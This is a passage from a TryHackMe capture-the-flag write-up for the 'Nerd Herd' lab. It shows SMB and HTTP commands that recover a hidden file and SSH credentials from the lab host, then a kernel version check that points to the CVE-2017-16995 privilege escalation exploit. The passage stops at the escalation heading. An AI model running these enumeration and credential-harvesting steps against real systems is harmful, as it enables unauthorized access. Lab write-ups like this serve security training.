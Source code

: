 Download the secret file from smb

```
m3dsec@local:~/nerdherd.thm/files/smb$ smbclient -U chuck \\\\10.10.101.50\\nerdherd_classified
Enter WORKGROUP\chuck's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Sep 11 02:29:53 2020
  ..                                  D        0  Mon Sep 14 18:41:35 2020
  secr3t.txt                          N      125  Fri Sep 11 02:29:53 2020

		8124856 blocks of size 1024. 3176792 blocks available
smb: \> mget secr3t.txt
Get file secr3t.txt? yes
getting file \secr3t.txt of size 125 as secr3t.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit

m3dsec@local:~/nerdherd.thm/files/smb$ cat secr3t.txt
Ssssh! don't tell this anyone because you deserved it this far:
	check out "/this1sn0tadirect0ry"
Sincerely,
0xpr0N3rd <3
```

[0xpr0N3rd](https://tryhackme.com/p/0xpr0N3rd) have something for us, lets see what it is

```
m3dsec@local:~/nerdherd.thm/files/smb$ curl 10.10.101.50:1337/this1sn0tadirect0ry/creds.txt
alright, enough with the games.
here, take my ssh creds:
	chuck:th1s41ntmypa5s
```

Good game buddy, we know have ssh credentials.


<br>
<h2 id="Internal-Enumeration">Internal Enumeration:</h2>

With ssh, we got inside the target host as user **chuck**, and we noticed that:
1. the path is exportable.
2. user chuck is a member of sudoers group.
3. we have some pre-installed commpilers.

Normally when i see compilers i go directly and check the kernel version.

```
huck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

In this case [cve-2017-16995](https://www.exploit-db.com/exploits/45010) looks applicable


<br>
<h2 id="Privelege-escalation">Privelege escalation:</h2>
